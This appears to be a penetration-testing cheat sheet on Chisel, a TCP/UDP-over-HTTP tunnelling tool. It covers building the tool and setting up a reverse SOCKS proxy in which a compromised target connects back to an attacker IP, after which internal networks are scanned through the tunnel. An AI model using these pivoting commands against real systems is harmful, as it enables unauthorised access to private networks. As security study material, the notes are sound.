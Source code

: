 # Chisel

## Intro

* Chisel is a **fast TCP/UDP tunnel**, transported over **HTTP**, secured via **SSH**. Single executable including both client and server. Written in **Go (golang)**. Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

### Install

```javascript
# Clone Repository
git clone 'https://github.com/jpillora/chisel.git'

# Build Binary
go build

# Binary is now built and ready to be transfered over to target system.
```

### Usage

#### Reverse SOCKS proxy

```java
# Attacking Machine
./chisel server -p <Port> --reverse &
./chisel server -p 1337 --reverse &

# On Target Machine
./chisel client <Attacking-IP>:<Port> R:socks &
./chisel client 10.50.46.8:1337 R:socks &

# Then use Proxychains to scan internal networks from the compromised host.
```
